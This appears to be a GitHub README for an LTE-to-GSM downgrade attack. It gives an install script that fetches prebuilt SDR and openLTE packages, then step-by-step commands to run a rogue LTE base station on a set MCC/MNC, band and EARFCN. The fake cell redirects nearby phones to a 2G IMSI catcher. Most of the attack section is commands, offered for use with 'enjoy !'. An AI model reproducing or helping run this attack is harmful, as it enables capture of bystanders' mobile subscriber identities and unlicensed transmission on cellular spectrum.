 # openlte_redirection_quickinstall
* Installation
Follow this readme :  
https://github.com/bbaranoff/openLTE2GSM/
  
The bash script is :  
sudo apt update  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/uhd_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapysdr_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/bladerf_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapybladerf_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapyuhd_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/gnuradio_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/gr-osmosdr_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/polarssl_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/openlte_20211230-1_amd64.deb  
dpkg -i *.deb  
export LD_LIBRARY_PATH=/usr/local/lib/  
sudo ldconfig  
sudo apt install libboost-date-time1.67.0 libboost-filesystem1.67.0 libboost-regex1.67.0 libboost-serialization1.67.0 libboost-serialization1.67.0  
echo "Done !!!!"


* Installing 2G IMSI-Catcher
Then build 2G IMSI-Catcher  
Build IMSI-catcher  

* Testing the attack
Running  
Phone in 2G/3G/4G mode  
This article is in progress and is just a PoC  
The attack step are run the IMSI-catcher into arfcn 514 follow (see Build IMSI-catcher)  
run the 4G redirector as follow  
  
Shell #1  
LTE_fdd_enodeb

Shell #2  
telnet localhost 30000  
write rx_gain 30  
write tx_gain 80  
write mcc 215  
write mnc 15  
write band 7  
write dl_earfcn 3350  
(change with your ue values be careful that the earfcn is in the band)  
  
Then switch the phone in airplane mode and in  localhost:30000 (Shell #2) :  
start  
  
wait… and when you have “ok” answer in shell #2 remove airplane mode and … enjoy !

* Video explaining : 
https://www.youtube.com/watch?v=CL4THUyUSDc&t=34s&pp=ygUhbHRlIHJlZGlyZWN0aW9uIGJhc3RpZW4gYmFyYW5vZmYg  
https://www.youtube.com/shorts/j5cs28u4DAo  
https://www.youtube.com/watch?v=GmPN6CblvaQ&pp=ygUhbHRlIHJlZGlyZWN0aW9uIGJhc3RpZW4gYmFyYW5vZmYg
